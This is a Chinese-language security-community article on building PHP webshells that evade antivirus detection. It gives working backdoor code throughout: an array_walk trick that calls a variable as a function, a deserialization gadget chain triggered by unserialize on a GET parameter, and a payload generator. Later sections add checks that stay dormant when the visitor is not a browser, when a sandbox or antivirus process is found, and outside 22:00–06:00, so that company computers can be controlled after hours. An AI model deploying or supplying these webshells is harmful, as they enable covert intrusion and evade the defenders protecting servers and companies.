









# 多条件触发的免杀 Webshell-先知社区

> **来源**: https://xz.aliyun.com/news/17187  
> **文章ID**: 17187

---

# 前言

在做webshell免杀的时候，很多情况下都是对system,eval等命令执行函数进行匹配，如果说把变量当做一个函数来使用的话，那是不是可以bypass了呢？这今天刚好看见有一个回调函数有这样的功能，而且也不会报毒，再仔细想想shellcode免杀，绕过云沙箱时，是不是会先判断一下是否在沙箱环境，在就不运行，不在就运行，那在webshell上面是不是也同样食用呢？甚至我们可以加一下条件，让代码只在特定的条件下运行呢？

# array\_walk

array\_walk 是 PHP 中的一个内置函数，用于对数组中的每个元素应用用户自定义的回调函数。它可以遍历数组，并将数组的键和值传递给回调函数进行处理。array\_walk 不会返回一个新的数组，而是直接修改原始数组。

函数语法：

```
array_walk(array &$array, callable $callback, mixed $userdata = null): bool
```

* **$array**：要遍历的数组（按引用传递，可以直接修改）。
* **$callback**：用户自定义的回调函数，接收两个参数（值，键），或者三个参数（值，键，$userdata）。
* **$userdata**（可选）：传递给回调函数的额外数据。

返回值：

* 成功时返回 true，失败时返回 false。

示例代码：

```
<?php
$fruits = ["apple" => 5, "banana" => 3, "orange" => 8];

// 定义一个回调函数
function printItem($value, $key) {
    echo "Key: $key, Value: $value
";
}

// 使用 array_walk 遍历数组
array_walk($fruits, 'printItem');
```

输出：

```
复制

Key: apple, Value: 5
Key: banana, Value: 3
Key: orange, Value: 8
```

其实也就是把变量名当作函数，参数当作函数的参数

# 示例代码

```
<?php
class shell {
    public $system = "whoami";
    public function add($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
        });
    }
}

// 实例化类
$A = new shell();

// 调用 add 方法
$A->add('some_argument');
```





# 结合HGCTF反序列化的免杀马

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11="sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}


if (isset($_GET['cmd'])) {
    unserialize($_GET['cmd']);
} else {
    highlight_file(__FILE__);
}
```

调用链：

```
CherryBlossom:__destruct->Samurai:__toString->Princess:__call->CherryBlossom:__toString->Philosopher:__invoke->Mystery:__get
```

```
<?php
class CherryBlossom {
public $fruit1;
public $fruit2;
}


class Samurai {
public $fruit6;
public $fruit7;
}


class Philosopher {
public $fruit10;
public $fruit11="SwjI4H8ZbLdWv6zJxOZN";
}


class Princess {
//
public $fruit9;
}


class Mystery {
public $system="ipconfig";
}

$a = new CherryBlossom();
$b = new CherryBlossom();
$c = new Samurai();
$d = new Princess();
$e = new Philosopher();
$f = new Mystery();
$a->fruit1 =$c;
$a->fruit1->fruit6 =$d;
$a->fruit1->fruit6->fruit9 =$b;
$a->fruit1->fruit6->fruit9->fruit2 =$e;
$a->fruit1->fruit6->fruit9->fruit2->fruit10 =$f;
echo urlencode(serialize($a));
```





# 只在浏览器开启时运行

一般来说，使用电脑都是离不开浏览器的，那这就是一个条件了，对浏览器进行检测主要是对UA头进行检测

**Google Chrome**

* Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

**Mozilla Firefox**

* Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11 = "sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}

// 检查 User-Agent 是否为浏览器
function isBrowser() {
    if (isset($_SERVER['HTTP_USER_AGENT'])) {
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        // 常见浏览器的 User-Agent 关键词
        $browserKeywords = ['Mozilla', 'Chrome', 'Safari', 'Firefox', 'Edge', 'Opera'];
        foreach ($browserKeywords as $keyword) {
            if (stripos($userAgent, $keyword) !== false) {
                return true;
            }
        }
    }
    return false;
}

if (isset($_GET['cmd'])) {
    // 仅在检测到浏览器时触发反序列化
    if (isBrowser()) {
        unserialize($_GET['cmd']);
    } else {
        echo "Access denied. This feature is only available for browsers.";
    }
} else {
    highlight_file(__FILE__);
}
```

测试一下：我现在开火狐浏览器，然后把火狐浏览器的UA头特征删除一下





当他未检测到时，就不会运行

# 云沙箱环境下不运行

沙箱环境是具有一定特征的，我们可以利用这些特征，作为避开代码运行的条件

* 检测文件或目录是否存在（如 /etc/hostname 或 /home/sandbox）。
* 检测特定函数是否被禁用（如 exec、system、shell\_exec）。
* 检测特定扩展是否加载（如 suhosin、runkit）。

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11 = "sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}

// 检查是否为沙箱环境
function isSandbox() {
    // 检测常见的沙箱特征
    $sandboxIndicators = [
        // 检测特定文件或目录
        '/etc/hostname' => 'sandbox',
        '/home/sandbox' => true,
        // 检测特定函数是否被禁用
        'function_exists' => ['exec', 'system', 'shell_exec'],
        // 检测特定扩展是否加载
        'extension_loaded' => ['suhosin', 'runkit'],
    ];

    foreach ($sandboxIndicators as $indicator => $value) {
        if (is_string($indicator)) {
            // 检测文件或目录是否存在
            if (file_exists($indicator)) {
                return true;
            }
        } elseif (is_array($value)) {
            // 检测函数是否被禁用
            foreach ($value as $func) {
                if (!function_exists($func)) {
                    return true;
                }
            }
        }
    }

    return false;
}

// 检查 User-Agent 是否为浏览器
function isBrowser() {
    if (isset($_SERVER['HTTP_USER_AGENT'])) {
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        // 常见浏览器的 User-Agent 关键词
        $browserKeywords = ['Mozilla', 'Chrome', 'Safari', 'Firefox', 'Edge', 'Opera'];
        foreach ($browserKeywords as $keyword) {
            if (stripos($userAgent, $keyword) !== false) {
                return true;
            }
        }
    }
    return false;
}

if (isset($_GET['cmd'])) {
    // 仅在非沙箱环境且通过浏览器访问时触发反序列化
    if (!isSandbox() && isBrowser()) {
        unserialize($_GET['cmd']);
    } else {
        echo "Access denied. This feature is not available in the current environment.";
    }
} else {
    highlight_file(__FILE__);
}
```

# 检测杀毒软件扫描时不运行

对于一些杀毒软件也有一定特征，有时候用户如果在没有装杀毒软件时被上马了，后面排查时，再用杀软时，我们就可以利用其杀软特征规避检测

* 在 Windows 系统上使用 tasklist 命令获取进程列表。
* 在 Linux 或 macOS 系统上使用 ps aux 命令获取进程列表。
* 检查进程列表中是否包含杀毒软件的关键进程名。

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11 = "sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}

// 检查是否为杀毒软件扫描环境
function isAntivirusScan() {
    // 检测常见的杀毒软件进程或文件
    $antivirusIndicators = [
        // 360 安全卫士
        '360sd.exe', '360tray.exe', 'zhudongfangyu.exe',
        // 火绒安全软件
        'hipsmain.exe', 'wsctrl.exe', 'usysdiag.exe',
        // 其他杀毒软件
        'avp.exe', 'msmpeng.exe', 'mbam.exe',
    ];

    // 获取当前运行的进程列表
    if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
        // Windows 系统
        exec('tasklist', $processes);
    } else {
        // Linux 或 macOS 系统
        exec('ps aux', $processes);
    }

    // 检查是否有杀毒软件进程
    foreach ($antivirusIndicators as $indicator) {
        foreach ($processes as $process) {
            if (stripos($process, $indicator) !== false) {
                return true;
            }
        }
    }

    return false;
}

// 检查是否为沙箱环境
function isSandbox() {
    // 检测常见的沙箱特征
    $sandboxIndicators = [
        // 检测特定文件或目录
        '/etc/hostname' => 'sandbox',
        '/home/sandbox' => true,
        // 检测特定函数是否被禁用
        'function_exists' => ['exec', 'system', 'shell_exec'],
        // 检测特定扩展是否加载
        'extension_loaded' => ['suhosin', 'runkit'],
    ];

    foreach ($sandboxIndicators as $indicator => $value) {
        if (is_string($indicator)) {
            // 检测文件或目录是否存在
            if (file_exists($indicator)) {
                return true;
            }
        } elseif (is_array($value)) {
            // 检测函数是否被禁用
            foreach ($value as $func) {
                if (!function_exists($func)) {
                    return true;
                }
            }
        }
    }

    return false;
}

// 检查 User-Agent 是否为浏览器
function isBrowser() {
    if (isset($_SERVER['HTTP_USER_AGENT'])) {
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        // 常见浏览器的 User-Agent 关键词
        $browserKeywords = ['Mozilla', 'Chrome', 'Safari', 'Firefox', 'Edge', 'Opera'];
        foreach ($browserKeywords as $keyword) {
            if (stripos($userAgent, $keyword) !== false) {
                return true;
            }
        }
    }
    return false;
}

if (isset($_GET['cmd'])) {
    // 仅在非沙箱环境、非杀毒软件扫描且通过浏览器访问时触发反序列化
    if (!isSandbox() && !isAntivirusScan() && isBrowser()) {
        unserialize($_GET['cmd']);
    } else {
        echo "Access denied. This feature is not available in the current environment.";
    }
} else {
    highlight_file(__FILE__);
}
```

# 只在特定时间下运行

一般来说正常企业都是朝九晚五，那么我们是不是可以让木马在特定的时间下才运行呢，等到用户下班后，在对其公司电脑进行控制

* 使用 date('H') 获取当前小时（24 小时制）。
* 通过逻辑或（||）判断当前时间是否在 22:00 到 6:00 之间。

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11 = "sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}

// 检查是否为杀毒软件扫描环境
function isAntivirusScan() {
    // 检测常见的杀毒软件进程或文件
    $antivirusIndicators = [
        // 360 安全卫士
        '360sd.exe', '360tray.exe', 'zhudongfangyu.exe',
        // 火绒安全软件
        'hipsmain.exe', 'wsctrl.exe', 'usysdiag.exe',
        // 其他杀毒软件
        'avp.exe', 'msmpeng.exe', 'mbam.exe',
    ];

    // 获取当前运行的进程列表
    if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
        // Windows 系统
        exec('tasklist', $processes);
    } else {
        // Linux 或 macOS 系统
        exec('ps aux', $processes);
    }

    // 检查是否有杀毒软件进程
    foreach ($antivirusIndicators as $indicator) {
        foreach ($processes as $process) {
            if (stripos($process, $indicator) !== false) {
                return true;
            }
        }
    }

    return false;
}

// 检查是否为沙箱环境
function isSandbox() {
    // 检测常见的沙箱特征
    $sandboxIndicators = [
        // 检测特定文件或目录
        '/etc/hostname' => 'sandbox',
        '/home/sandbox' => true,
        // 检测特定函数是否被禁用
        'function_exists' => ['exec', 'system', 'shell_exec'],
        // 检测特定扩展是否加载
        'extension_loaded' => ['suhosin', 'runkit'],
    ];

    foreach ($sandboxIndicators as $indicator => $value) {
        if (is_string($indicator)) {
            // 检测文件或目录是否存在
            if (file_exists($indicator)) {
                return true;
            }
        } elseif (is_array($value)) {
            // 检测函数是否被禁用
            foreach ($value as $func) {
                if (!function_exists($func)) {
                    return true;
                }
            }
        }
    }

    return false;
}

// 检查 User-Agent 是否为浏览器
function isBrowser() {
    if (isset($_SERVER['HTTP_USER_AGENT'])) {
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        // 常见浏览器的 User-Agent 关键词
        $browserKeywords = ['Mozilla', 'Chrome', 'Safari', 'Firefox', 'Edge', 'Opera'];
        foreach ($browserKeywords as $keyword) {
            if (stripos($userAgent, $keyword) !== false) {
                return true;
            }
        }
    }
    return false;
}

// 检查当前时间是否在指定范围内（22:00 到 6:00）
function isWithinTimeRange() {
    $currentHour = (int)date('H'); // 获取当前小时
    return ($currentHour >= 22 || $currentHour < 6); // 22:00 到 6:00
}

if (isset($_GET['cmd'])) {
    // 仅在非沙箱环境、非杀毒软件扫描、通过浏览器访问且时间在 22:00 到 6:00 时触发反序列化
    if (!isSandbox() && !isAntivirusScan() && isBrowser() && isWithinTimeRange()) {
        unserialize($_GET['cmd']);
    } else {
        echo "Access denied. This feature is not available in the current environment or time.";
    }
} else {
    highlight_file(__FILE__);
}
```

测试下：我现在的时间是20点





未满足条件，所以没有运行成功

改下时间看看



成功运行了
